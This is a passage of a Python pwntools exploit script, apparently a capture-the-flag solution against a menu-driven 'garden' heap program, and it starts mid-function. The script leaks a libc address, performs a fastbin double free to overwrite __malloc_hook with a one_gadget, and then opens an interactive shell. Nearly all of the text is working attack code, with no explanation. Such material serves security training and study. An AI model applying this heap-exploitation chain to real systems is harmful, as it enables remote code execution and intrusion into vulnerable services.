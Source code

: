 ```python
	p.send(name)
	p.recvuntil("flower :")
	p.sendline(color)

def visit():
	p.recvuntil("choice : ")
	p.sendline("2")

def del_(index):
	p.recvuntil("choice : ")
	p.sendline("3")
	p.recvuntil("garden:")
	p.sendline(str(index))

def clean():
	p.recvuntil("choice : ")
	p.sendline("4")
 
add(0x80,"a","aaaa") # 0
add(0x20,"b","bbbb") # 1
del_(0)
clean()

add(0x80,"c","cccc") # 0

visit()
libc_addr = u64(p.recvuntil("\x7f")[-6:].ljust(8, "\x00"))
offset = 0x3c4b63

libc.address = libc_addr - offset

malloc_hook = libc.symbols['__malloc_hook']
addr = 0x3c4aed + libc.address
one_gadget = 0xf02a4 + libc.address

add(0x60, "a", "aaaa") # 2
add(0x60, "b", "bbbb") # 3

del_(2)
del_(3)
del_(2)

add(0x60, p64(addr), "fake")
add(0x60, "c", "cccc")
add(0x60, "d", "dddd")
add(0x60, 0x13 * "e" + p64(one_gadget),"asdf")
print hex(addr)

del_(2)
del_(2)

p.interactive()

```
